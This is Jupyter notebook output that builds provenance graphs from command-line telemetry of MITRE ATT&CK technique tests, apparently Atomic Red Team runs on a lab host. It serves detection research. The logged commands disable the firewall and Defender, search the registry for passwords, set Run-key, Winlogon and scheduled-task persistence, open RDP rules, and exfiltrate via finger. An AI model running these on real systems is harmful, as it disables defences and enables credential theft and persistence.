

 59%|█████▉    | 98/165 [01:28<00:24,  2.69it/s]

Number of relations in the graph: 3
698720 : cmd.exe_/C_tasklist.exe_&&_sc_query_&&_sc_query_state=_all&C:\Windows\system32\cmd.exe&cmd.exe&6496
488163 : tasklist.exe__&C:\Windows\system32\tasklist.exe&tasklist.exe&8600
652407 : sc__query_&C:\Windows\system32\sc.exe&sc.exe&372
642871 : sc__query_state=_all&C:\Windows\system32\sc.exe&sc.exe&3640
../graph_others2/T1007_d6bb2a19da7246731ed9c44831b135f8.png has been generated!
T1562.004_8fe59e288f10a486dc8b44bc872019ff


<Figure size 432x288 with 0 Axes>



 60%|██████    | 99/165 [01:28<00:24,  2.68it/s]

Number of relations in the graph: 3
16932 : cmd.exe_/C_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile"_/v_"EnableFirewall"_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\cmd.exe&cmd.exe&4728
574742 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile"_/v_"EnableFirewall"_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\reg.exe&reg.exe&6448
517283 : HKLM\System\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile\EnableFirewall
../graph_others2/T1562.004_8fe59e288f10a486dc8b44bc872019ff.png has been generated!
T1112_fd992e8ecfdac9b56dd6868904044827


<Figure size 432x288 with 0 Axes>



 61%|██████    | 100/165 [01:28<00:23,  2.75it/s]

Number of relations in the graph: 3
604448 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoRun_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&4548
696650 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoRun_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&8532
198945 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoRun
../graph_others2/T1112_fd992e8ecfdac9b56dd6868904044827.png has been generated!
T1112_257313a3c93e3bb7dfb60d6753b09e34


<Figure size 432x288 with 0 Axes>



 61%|██████    | 101/165 [01:29<00:23,  2.77it/s]

Number of relations in the graph: 3
303496 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFileMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&8900
22509 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoFileMenu_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&3476
181271 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoFileMenu
../graph_others2/T1112_257313a3c93e3bb7dfb60d6753b09e34.png has been generated!
T1112_ba6f6214dbd17c54001e0a163b60f151


<Figure size 432x288 with 0 Axes>



 62%|██████▏   | 102/165 [01:29<00:22,  2.83it/s]

Number of relations in the graph: 3
672703 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoSetTaskbar_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&5836
158127 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoSetTaskbar_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&7696
798771 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoSetTaskbar
../graph_others2/T1112_ba6f6214dbd17c54001e0a163b60f151.png has been generated!
T1112_e74d2fb4ef5fa6c766a4151554033697


<Figure size 432x288 with 0 Axes>



 62%|██████▏   | 103/165 [01:30<00:30,  2.03it/s]

Number of relations in the graph: 3
113601 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoDesktop_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&6500
632958 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoDesktop_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\reg.exe&reg.exe&10072
406471 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDesktop
../graph_others2/T1112_e74d2fb4ef5fa6c766a4151554033697.png has been generated!
T1074.001_6469befa-748a-4b9c-a96d-f191fde47d89


<Figure size 432x288 with 0 Axes>



 63%|██████▎   | 104/165 [01:30<00:26,  2.29it/s]

Number of relations in the graph: 3
784864 : powershell.exe_-ExecutionPolicy_Bypass_-C_"New-Item_-Path_\".\"_-Name_\"staged\"_-ItemType_\"directory\"_-Force_|_foreach_{$_.FullName}_|_Select-Object"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10296
80097 : C:\Windows\System32\staged
../graph_others2/T1074.001_6469befa-748a-4b9c-a96d-f191fde47d89.png has been generated!
T1112_cd8be0e6b873919da25530a2c7ea6750


<Figure size 432x288 with 0 Axes>



 64%|██████▎   | 105/165 [01:30<00:24,  2.41it/s]

Number of relations in the graph: 3
395256 : C:\Users\ezk\AppData\Roaming\updater.exe__-Command_exit&C:\Users\ezk\AppData\Roaming\updater.exe&updater.exe&612
39919 : HKLM\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell\ExecutionPolicy
740780 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ExecutionPolicy_-ExecutionPolicy_Bypass_-Scope_LocalMachine"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11128
../graph_others2/T1112_cd8be0e6b873919da25530a2c7ea6750.png has been generated!
T1112_7fe6a66d03f4dbfc022609ba311c2b11


<Figure size 432x288 with 0 Axes>



 64%|██████▍   | 106/165 [01:31<00:23,  2.55it/s]

Number of relations in the graph: 3
602868 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoPropertiesMyDocuments_/t_REG_DWORD_/d_1&C:\Windows\system32\cmd.exe&cmd.exe&4740
710270 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer"_/v_NoPropertiesMyDocuments_/t_REG_DWORD_/d_1&C:\Windows\system32\reg.exe&reg.exe&1728
61427 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoPropertiesMyDocuments
../graph_others2/T1112_7fe6a66d03f4dbfc022609ba311c2b11.png has been generated!
T1562.001_43e3334362b140924f001b256b229ee5


<Figure size 432x288 with 0 Axes>



 65%|██████▍   | 107/165 [01:31<00:20,  2.77it/s]

Number of relations in the graph: 2
651681 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ItemProperty_\"HKLM:\SOFTWARE\Policies\Microsoft\Windows_Defender\"_-Name_DisableAntiSpyware_-Value_1"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2172
240283 : HKLM\SOFTWARE\Policies\Microsoft\Windows_Defender\DisableAntiSpyware
../graph_others2/T1562.001_43e3334362b140924f001b256b229ee5.png has been generated!
T1552.002_3e5b04b8ee0a1a4950da8f35d95e65fc


<Figure size 432x288 with 0 Axes>



 65%|██████▌   | 108/165 [01:31<00:20,  2.84it/s]

Number of relations in the graph: 2
600472 : cmd.exe_/C_reg_query_HKLM_/f_password_/t_REG_SZ_/s_&&_reg_query_HKCU_/f_password_/t_REG_SZ_/s&C:\Windows\system32\cmd.exe&cmd.exe&9692
201183 : reg__query_HKLM_/f_password_/t_REG_SZ_/s_&C:\Windows\system32\reg.exe&reg.exe&10372
518213 : reg__query_HKCU_/f_password_/t_REG_SZ_/s&C:\Windows\system32\reg.exe&reg.exe&8880
../graph_others2/T1552.002_3e5b04b8ee0a1a4950da8f35d95e65fc.png has been generated!
T1518.001_33a24ff44719e6ac0614b58f8c9a7c72


<Figure size 432x288 with 0 Axes>



 66%|██████▌   | 109/165 [01:32<00:19,  2.89it/s]

Number of relations in the graph: 2
121032 : cmd.exe_/C_fltmc.exe_|_findstr.exe_385201&C:\Windows\system32\cmd.exe&cmd.exe&10612
67726 : fltmc.exe__&C:\Windows\system32\fltMC.exe&fltMC.exe&10340
461136 : findstr.exe__385201&C:\Windows\system32\findstr.exe&findstr.exe&9448
../graph_others2/T1518.001_33a24ff44719e6ac0614b58f8c9a7c72.png has been generated!
T1547.001_777043894e42d2aae3881e63f6c76d33


<Figure size 432x288 with 0 Axes>



 67%|██████▋   | 110/165 [01:32<00:17,  3.09it/s]

Number of relations in the graph: 2
354280 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$RunKey_=_\"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\";_Set-ItemProperty_-Path_$RunKey_-Name_\"socks5_powershell\"_-Value_\"powershell.exe_-windowstyle_hidden_-ExecutionPolicy_Bypass_-File\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5536
267678 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\socks5_powershell
../graph_others2/T1547.001_777043894e42d2aae3881e63f6c76d33.png has been generated!
T1547.004_0856714c9810ac55b53e9964d02958a0


<Figure size 432x288 with 0 Axes>



 67%|██████▋   | 111/165 [01:32<00:16,  3.18it/s]

Number of relations in the graph: 2
764621 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ItemProperty_\"HKCU:\Software\Microsoft\Windows_NT\CurrentVersion\Winlogon\\\"_\"Userinit\"_\"Userinit.exe,_C:\Windows\System32\cmd.exe\"_-Force"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9200
757062 : HKCU\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Winlogon\Userinit
../graph_others2/T1547.004_0856714c9810ac55b53e9964d02958a0.png has been generated!
T1562.004_280003641a5cddf916c4f2bf605a71d3


<Figure size 432x288 with 0 Axes>



 68%|██████▊   | 112/165 [01:33<00:17,  3.11it/s]

Number of relations in the graph: 2
537077 : cmd.exe_/C_netsh_advfirewall_firewall_set_rule_group="remote_desktop"_new_enable=Yes_&&_netsh_advfirewall_firewall_set_rule_group="file_and_printer_sharing"_new_enable=Yes&C:\Windows\system32\cmd.exe&cmd.exe&11152
94203 : netsh__advfirewall_firewall_set_rule_group="remote_desktop"_new_enable=Yes_&C:\Windows\system32\netsh.exe&netsh.exe&10736
549961 : netsh__advfirewall_firewall_set_rule_group="file_and_printer_sharing"_new_enable=Yes&C:\Windows\system32\netsh.exe&netsh.exe&6616
../graph_others2/T1562.004_280003641a5cddf916c4f2bf605a71d3.png has been generated!
T1036.004_7de3d7b4922a7b996d8df36fb22bb118


<Figure size 432x288 with 0 Axes>



 68%|██████▊   | 113/165 [01:33<00:16,  3.07it/s]

Number of relations in the graph: 2
470650 : cmd.exe_/C_schtasks_/create_/ru_system_/sc_daily_/tr_"cmd_/c_powershell.exe_-ep_bypass_-file_c:\T1036.004_NonExistingScript.ps1"_/tn_win32times_/f_&&_schtasks_/query_/tn_win32times&C:\Windows\system32\cmd.exe&cmd.exe&4092
663446 : schtasks__/create_/ru_system_/sc_daily_/tr_"cmd_/c_powershell.exe_-ep_bypass_-file_c:\T1036.004_NonExistingScript.ps1"_/tn_win32times_/f_&C:\Windows\system32\schtasks.exe&schtasks.exe&2620
627322 : schtasks__/query_/tn_win32times&C:\Windows\system32\schtasks.exe&schtasks.exe&4724
../graph_others2/T1036.004_7de3d7b4922a7b996d8df36fb22bb118.png has been generated!
T1090.001_ba343199a4f15ed6b57eb52412f62e4e


<Figure size 432x288 with 0 Axes>



 69%|██████▉   | 114/165 [01:33<00:16,  3.06it/s]

Number of relations in the graph: 2
740395 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netsh_interface_portproxy_add_v4tov4_listenport=1337_connectport=1337_connectaddress=127.0.0.1"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10840
282064 : "C:\Windows\system32\netsh.exe"_interface_portproxy_add_v4tov4_listenport=1337_connectport=1337_connectaddress=127.0.0.1&C:\Windows\system32\netsh.exe&netsh.exe&5024
275110 : HKLM\System\CurrentControlSet\Services\PortProxy\v4tov4\tcp\*/1337
../graph_others2/T1090.001_ba343199a4f15ed6b57eb52412f62e4e.png has been generated!
T1518_c9be8043-a445-4cbf-b77b-ed7bb007fc7c


<Figure size 432x288 with 0 Axes>



 70%|██████▉   | 115/165 [01:34<00:16,  3.02it/s]

Number of relations in the graph: 2
32030 : reg__query_"HKEY_LOCAL_MACHINE\Software\Microsoft\Internet_Explorer"_/v_svcVersion&C:\Windows\system32\reg.exe&reg.exe&6844
704355 : HKLM\SOFTWARE\Microsoft\Internet_Explorer\svcVersion
88027 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(Get-ItemProperty_'HKLM:\SOFTWARE\Microsoft\Internet_Explorer').Version"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9436
../graph_others2/T1518_c9be8043-a445-4cbf-b77b-ed7bb007fc7c.png has been generated!
T1105_1095434782a00c8a4772a11e625bcf5d


<Figure size 432x288 with 0 Axes>



 70%|███████   | 116/165 [01:34<00:16,  3.05it/s]

Number of relations in the graph: 2
218246 : cmd.exe_/C_finger_base64_filedata@localhost&C:\Windows\system32\cmd.exe&cmd.exe&2192
327930 : finger__base64_filedata@localhost&C:\Windows\system32\finger.exe&finger.exe&7148
1644 : DESKTOP-BA1RQFC.blueteam.com&DESKTOP-BA1RQFC.blueteam.com:finger
../graph_others2/T1105_1095434782a00c8a4772a11e625bcf5d.png has been generated!
T1531_b25ae80dad74142fafb510e9c1949ace


<Figure size 432x288 with 0 Axes>



 71%|███████   | 117/165 [01:34<00:16,  3.00it/s]

Number of relations in the graph: 2
261123 : cmd.exe_/C_net_user_AtomicUser_User2DeletePW!_/add_&&_net.exe_user_AtomicUser_/delete&C:\Windows\system32\cmd.exe&cmd.exe&9752
667860 : net__user_AtomicUser_User2DeletePW!_/add_&C:\Windows\system32\net.exe&net.exe&9232
593499 : net.exe__user_AtomicUser_/delete&C:\Windows\system32\net.exe&net.exe&7508
../graph_others2/T1531_b25ae80dad74142fafb510e9c1949ace.png has been generated!
T1053.005_5db2884b6ca3ab932848f295a3896dc0


<Figure size 432x288 with 0 Axes>

